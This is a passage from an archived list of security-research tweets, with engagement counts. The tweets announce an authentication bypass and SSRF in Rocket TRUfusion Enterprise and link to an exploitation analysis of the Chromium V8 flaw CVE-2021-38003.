<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>42</code></td>
</tr></table>

---

# Nettitude_Labs
**https://twitter.com/Nettitude_Labs/status/1610601324243984384 _at 2023-01-04, 11:37:33_**
<blockquote>
CVE-2022-25026 &amp; CVE-2022-25027: Authentication Bypass and Server-Side Request Forgery in Rocket TRUfusion Enterprise.

https://t.co/KFxamGBwb0
</blockquote>

* https://labs.nettitude.com/blog/cve-2022-25026-cve-2022-25027-vulnerabilities-in-rocket-trufusion-enterprise/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>81</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1610248371498897408 _at 2023-01-03, 12:15:03_**
<blockquote>
CVE-2021-38003: vulnerability analysis and exploitation by @starlabs_sg
V8 Javascript engine TheHole value leaking for RCE in Chromium-based browser 

https://t.co/CNdOT0IECa 

#chrome #cve #exploit #infosec #cybersecurity https://t.co/MITv2FRfie
</blockquote>

* https://starlabs.sg/blog/2022/12-the-hole-new-world-how-a-small-leak-will-sink-a-great-browser-cve-2021-38003/

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>79</code></td>
<td>Favorites: <code>230</code></td>
</tr></table>

---

